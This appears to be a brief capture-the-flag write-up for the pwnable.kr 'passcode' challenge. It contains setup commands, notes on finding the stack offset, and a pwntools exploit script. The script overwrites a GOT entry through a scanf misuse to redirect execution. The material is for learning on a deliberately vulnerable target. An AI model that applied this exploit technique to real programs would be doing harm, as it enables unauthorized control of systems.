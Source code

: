 ![](2022-07-27-18-56-01.png)


Download the challenge:
scp -P 2222 passcode@pwnable.kr:passcode .

verify binary security
checksec
cat /proc/sys/kernel/randomize_va_space

list terminals:
cat /etc/shells
change terminal
chsh 

ctrl+D end of transmission

We make a payload so we can see how the stack aligns afterwards:
0123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789

6789 is the first number so we must send p64(memory) at that position

012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345+p32(0x804a000)


printf pointer cannot be used
ds:0x804a000


disass printf(to find address in got)


```from pwn import *
#inp=remote('pwnable.kr', 9000)
pty = process.PTY
inp=process('passcode',)
#gdb.attach(inp, '''
#break login
#''')

#print 0x8048420
inp.sendline( 96*b's'+p32(0x804a000))
print(inp.recvline())
print(inp.recvline())
inp.sendline(str.encode(str(0x080485e3))) 

inp.interactive()```


this exploit is static sooo you can do a one liner using echo -e or python -c

Sorry mom.. I got confused about scanf usage :(
